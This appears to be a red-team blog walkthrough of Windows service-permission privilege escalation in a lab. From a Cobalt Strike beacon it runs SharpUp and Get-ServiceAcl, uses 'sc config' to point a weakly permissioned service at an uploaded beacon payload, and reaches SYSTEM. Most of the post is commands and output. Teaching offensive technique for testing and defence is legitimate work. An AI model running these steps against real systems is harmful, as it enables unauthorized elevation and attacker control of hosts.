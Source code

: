 This scenario is based upon an assumed compromise with lower privileges and after doing some endpoint recon we find a service that allows us to configure an exe of our choosing.  It's a common technique to look for vulnerable or misconfigured services as they tend to run with higher privileges.  Assuming you get passed EDR with the assumed compromised some of these techniques can be noisy but are TTPs threat actors employ. I'm using Cobalt as my C2 of choice but these techniques can be leveraged with plent of other popular C2 frameworks.


We'll need two listeners for this scenario (http & tcp).  The http listener is tied to the initial compromise and we'll use the beacon_bind_tcp as the second listener which will aid in elevating our privileges.  Below are my settings for both http and tcp listeners with cobalt.

![http](/assets/http.png)

![tcp-local](/assets/tcp-local.png)

Once on the compromised endpoint we can run a tool such as SharpUp to determine any priv esc opportunities.

```bash
[03/02 00:47:24] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[03/02 00:47:25] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[03/02 00:47:25] [+] host called home, sent: 149254 bytes
[03/02 00:47:26] [+] received output:

=== Modifiable Service Binaries ===
	Service 'VulnService1' (State: Running, StartMode: Auto) : C:\Program Files\Vulnerable Services\Service.exe
```

So SharpUp identifed a service where we can modify the service binary but doesn't show exactly what the permissions are so we need to dig a little deeper.  We can leverage a powershell script to see what service rights we have.

```bash
[03/02 01:21:24] beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [*] Tasked beacon to import: C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [+] host called home, sent: 2156 bytes
[03/02 01:21:46] beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access
[03/02 01:21:46] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[03/02 01:21:46] [+] host called home, sent: 425 bytes
[03/02 01:21:50] [+] received output:

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
```

We can see that all Authenticated Users have ChangeConfig, Start and Stop privileges over this service. We can abuse these weak permissions by changing the binary path of the service.  So instead of it running C:\Program Files\Vulnerable Services\Service.exe we can have it run something like C:\Temp\payload.exe.  If you haven't already go into Cobalt and create the tcp payload that leverages the tcp listener.  Next we'll configure the service to use our payload versus the service executable of the original service.

```bash
beacon> upload C:\Payloads\tcp-local.exe
beacon> run sc config VulnService binPath= C:\Temp\tcp-localexe
beacon> run sc qc VulnService
```

You may need to stop and start the service so keep that in mind.  Once the service is up and running with payload we pointed it too we can then connect to our localhost to hopefully have a beacon with elevated prvileges.

```bash
[03/02 01:36:36] beacon> connect localhost 4444
[03/02 01:36:36] [*] Tasked to connect to localhost:4444
[03/02 01:36:36] [+] host called home, sent: 20 bytes
[03/02 01:36:36] [+] established link to child beacon: 10.10.123.102
```

![system-privs](/assets/system-privs.png)

We can see from the screenshot that we were succesful in obtaing a call back with system privileges.
